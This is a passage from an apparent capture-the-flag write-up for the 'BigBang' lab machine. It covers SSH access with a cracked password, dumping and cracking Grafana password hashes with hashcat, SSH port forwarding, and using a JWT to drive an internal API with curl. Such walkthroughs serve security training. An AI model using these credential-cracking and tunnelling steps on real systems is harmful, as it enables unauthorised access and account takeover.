 `hashcat` cracks the hash. `quantumphysics` is the password for `shawking`.

`proxychains ssh shawking@172.17.0.1` with password `quantumphysics` and get the user flag.

### Privilege Escalation

In `/opt/data`, there's a `grafana.db`. The `user` table has credential info:

![](Pasted%20image%2020250126174501.png)

```
sqlite> select * from user;
1|0|admin|admin@localhost||441a715bd788e928170be7954b17cb19de835a2dedfdece8c65327cb1d9ba6bd47d70edb7421b05d9706ba6147cb71973a34|CFn7zMsQpf|CgJll8Bmss||1|1|0||2024-06-05 16:14:51|2024-06-05 16:16:02|0|2024-06-05 16:16:02|0|0|
2|0|developer|ghubble@bigbang.htb|George Hubble|7e8018a4210efbaeb12f0115580a476fe8f98a4f9bada2720e652654860c59db93577b12201c0151256375d6f883f1b8d960|4umebBJucv|0Whk1JNfa3||1|0|0||2024-06-05 16:17:32|2025-01-20 16:27:39|0|2025-01-20 16:27:19|0|0|ednvnl5nqhse8d
```

These hashes can be converted with [grafana2hashcat](https://github.com/iamaldi/grafana2hashcat). `grafana2hashcat.py` needs the hash and the salt, separated by a comma, in a text file.

```bash
hashcat -m 10900 ghubble.hash /usr/share/wordlists/rockyou.txt --force

sha256:10000:NHVtZWJCSnVjdg==:foAYpCEO+66xLwEVWApHb+j5ik+braJyDmUmVIYMWduTV3sSIBwBUSVjddb4g/G42WA=:bigbang
```

The credentials are `developer:bigbang` because George Hubble's username is `developer`. `ssh developer@"$RHOST"` returns a shell. There's loot in `android/satellite-app.apk`.

`ss -tulpn` shows a listener on `127.0.0.1:9090`.

```bash
ssh -L 9090:127.0.0.1:9090 developer@"$RHOST"

# Then
curl -X POST http://localhost:9090/command
# -> {"msg":"Missing Authorization Header"}

# Get an access token
curl -X POST http://localhost:9090/login -H "Content-Type: application/json" --data '{"username":"developer", "password":"bigbang"}'
{"access_token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTczNzkzNDEyNSwianRpIjoiYzBmOTA1MjEtZjdkYy00MjMyLWE0NDMtMWM5ZWM2OGM2NWFjIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmVsb3BlciIsIm5iZiI6MTczNzkzNDEyNSwiY3NyZiI6IjcyNGZkMGJmLWZhNjctNDQ4YS04ZjIyLWYxOWI3MjhkMmIxZCIsImV4cCI6MTczNzkzNzcyNX0.rlv1DgTaw7Vz097tSlm9l9N0SLbDTfAfcQlzjOVZb28"}

# Get a weird error message
curl -X POST http://localhost:9090/command -H "Content-Type: application/json" -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTczNzkzNDEyNSwianRpIjoiYzBmOTA1MjEtZjdkYy00MjMyLWE0NDMtMWM5ZWM2OGM2NWFjIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmVsb3BlciIsIm5iZiI6MTczNzkzNDEyNSwiY3NyZiI6IjcyNGZkMGJmLWZhNjctNDQ4YS04ZjIyLWYxOWI3MjhkMmIxZCIsImV4cCI6MTczNzkzNzcyNX0.rlv1DgTaw7Vz097tSlm9l9N0SLbDTfAfcQlzjOVZb28" --data '{"command":"move"}'
# -> {"error":"Invalid coordinates. Please provide numeric values for x, y, and z."}

# I moved something???
curl -X POST http://localhost:9090/command -H "Content-Type: application/json" -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTczNzkzNDEyNSwianRpIjoiYzBmOTA1MjEtZjdkYy00MjMyLWE0NDMtMWM5ZWM2OGM2NWFjIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmVsb3BlciIsIm5iZiI6MTczNzkzNDEyNSwiY3NyZiI6IjcyNGZkMGJmLWZhNjctNDQ4YS04ZjIyLWYxOWI3MjhkMmIxZCIsImV4cCI6MTczNzkzNzcyNX0.rlv1DgTaw7Vz097tSlm9l9N0SLbDTfAfcQlzjOVZb28" --data '{"command":"move", "x":"3", "y":"4", "z":"5"}'
# -> {"status":"developer is moving to coordinates (3.0, 4.0, 5.0)"}

# Fail to generate an image
```